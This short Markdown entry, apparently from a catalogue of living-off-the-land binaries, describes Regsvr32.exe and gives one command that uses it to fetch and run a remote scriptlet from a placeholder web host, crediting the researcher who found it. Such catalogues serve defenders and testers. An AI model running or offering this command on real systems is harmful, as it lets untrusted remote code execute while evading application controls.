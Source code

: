 ## Regsvr32.exe
  
* Functions: Execute

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```
   
Acknowledgements:
* Casey Smith - @subtee
   
   
   